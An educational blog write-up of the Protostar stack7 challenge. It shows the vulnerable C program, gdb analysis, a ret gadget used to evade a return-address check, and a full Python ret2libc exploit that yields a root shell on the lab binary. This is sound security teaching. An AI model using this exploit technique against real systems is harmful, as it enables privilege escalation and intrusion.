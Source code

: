 ```yaml
---
layout: post
title: Protostar Writeup - stack7
updated: 2018-10-14 16:30
tags: [tech, ctf, binary exploit, protostar]
---
```


## Protostar - stack7

Let's move on to the next level of Protostar. This is similar to the previous challenge.
Let's take a look at the code and see what differences are present.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
	char buffer[64];
	unsigned int ret;

	printf("input path please: "); fflush(stdout);

	gets(buffer);

	ret = __builtin_return_address(0);

	if((ret & 0xb0000000) == 0xb0000000) {
		printf("bzzzt (%p)\n", ret);
		_exit(1);
	}

	printf("got path %s\n", buffer);
	return strdup(buffer);
}

int main(int argc, char **argv)
{
	getpath();
}
{% endhighlight %}

So same stuff, but a different restriction on the return address... interesting. Let's take a look at what the address points to.

{% highlight shell %}
(gdb) break main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
(gdb) r
Starting program: /opt/protostar/bin/stack7 

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack7/stack7.c:28
28      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) info proc map
process 5409
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fe0000 0xb7fe2000     0x2000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
{% endhighlight %}

As we can see from the map above, we're restricted from returning to libc. This is apparent from the "0xb00000000" check in the C code.
So how can we counter this? After digging a bit, I came across ret2code. Basically you make use of addresses of the binary itself.
From the map above it's clear that we can do so. But what do we do? That is the question. From the previous write up we know that we can
fake a stack frame and gain a root shell. Can we do that here somehow?

It is possible only if we can evade the check. If we do evade the check we can then reuse our ret2libc attack. Makes sense.
One way could be to immediately return from the function to completely avoid the check. This seems like a viable strategy.
There are many such ROP chains(of instructions) which can be used to craft our exploits. These instructions are also known as
ROP gadgets(pretty cool eh?).

Here's what a standard calling convention looks like taken from [here](https://en.wikipedia.org/wiki/X86_calling_conventions#Caller_clean-up).:

{% highlight nasm %}
caller:
        ; make new call frame (some compilers may produce an 'enter' instruction instead)
        push    ebp       ; save old call frame
        mov     ebp, esp  ; initialize new call frame
        ; push call arguments, in reverse (some compilers may subtract the required space from the
        ; stack pointer, then write each argument directly, see below. The 'enter' instruction can also do something similar)
        ; sub esp, 12 ; 'enter' instruction could do this for us
        ; mov [ebp-4], 3 ; or mov [esp+8], 3
        ; mov [ebp-8], 2  ; or mov [esp+4], 2
        ; mov [ebp-12], 1  ; or mov [esp], 1
        push    3
        push    2
        push    1
        call    callee    ; call subroutine 'callee'
        add     eax, 5    ; modify subroutine result (eax is the return value of our callee,
                          ; so we don't have to move it into a local variable)
        ; restore old call frame (some compilers may produce a 'leave' instruction instead)
        ; add   esp, 12   ; remove arguments from frame, ebp - esp = 12.
                          ; compilers will usually produce the following instead, which is just as fast,
                          ; and, unlike the add instruction, also works for variable length arguments
                          ; and variable length arrays allocated on the stack.
        mov     esp, ebp  ; most calling conventions dictate ebp be callee-saved,
                          ; i.e. it's preserved after calling the callee.
                          ; it therefore still points to the start of our stack frame.
                          ; we do need to make sure callee doesn't modify (or restores) ebp, though,
                          ; so we need to make sure it uses a calling convention which does this
        pop     ebp       ; restore old call frame
        ret               ; return
{% endhighlight %}

The instructions we're particularly interested in are the "pop x" and "ret" at the end of the above section.
Using those two instructions we can exit from a fucntion. Thinking of it we don't even need the "pop x".
This simplifies our task. If we did have to use "pop" to restore the previous stack frame(which is not required in this case).
That's why a "ret" is sufficient.

Let's get started, first let's find the IP offset. Using our trustworthy pattern...

{% highlight python %}
>>> cyclic_metasploit(128)
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa...0Ab1Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
{% endhighlight %}

{% highlight shell %}
(gdb) r
Starting program: /opt/protostar/bin/stack7 
input path please: Aa0Aa1Aa2Aa3...Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
got path Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A...Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
{% endhighlight %}

{% highlight python %}
>>> cyclic_metasploit_find(0x37634136)
80
{% endhighlight %}

So we know our padding is 80 bytes. Now lets get the address of ret from the binary...

{% highlight shell %}
$ objdump -D stack7 | grep ret
 8048383:       c3                      ret    
 8048494:       c3                      ret    
 ...
 80485f9:       c3                      ret    
 8048617:       c3                      ret    
{% endhighlight %}

Let's make use of the first address. Now we need the base address of libc which we have from the above proc map.
So that's at "0xb7e97000". Now let's get the addresses of system and exit.

{% highlight shell %}
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
{% endhighlight %}

Notice how the functions are at within the restricted addresses. But this doesn't matter since we're avoiding the check.
That's why our ret2libc attack works again. One final thing we require is the shell string, which we can get the same way we did last time.

{% highlight shell %}
$ strings -a -t x /lib/libc-2.11.2.so
 11f3bf /bin/sh
{% endhighlight %}

Keep in mind that this is the offset and not the location of the shell string, we'll have to add this offset to libc's address to get the actual
address. Using all this, let's craft our exploit.

{% highlight python %}
import struct

padding = 'A' * 80

ret_addr = struct.pack("I", 0x8048383)
libc_start_addr = 0xb7e97000
shell_string_offset = 0x11f3bf
shell_string_addr = struct.pack("I", libc_start_addr + shell_string_offset)
system_addr = struct.pack("I", 0xb7ecffb0)
exit_addr = struct.pack("I", 0xb7ec60c0)

def go():
    payload = padding
    payload += ret_addr
    payload += system_addr
    payload += exit_addr
    payload += shell_string_addr
    print payload

go()
{% endhighlight %}

A quick and diry exploit, nothing fancy. Let's run it...

{% highlight shell %}
$ (python /tmp/exploit7.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{% endhighlight %}

Easy peasy. Those are all of the stack exploits. If you've come so far, then good job, you now have basic understanding of why bufferoverflows are bad.
A word of caution...these techniques dont work anymore...at least not this easily. You have protections like DEP and ASLR which are put in place to prevent these kinds of attacks.

P.S.: If you like this blog please do feel free to share it with your friends :).

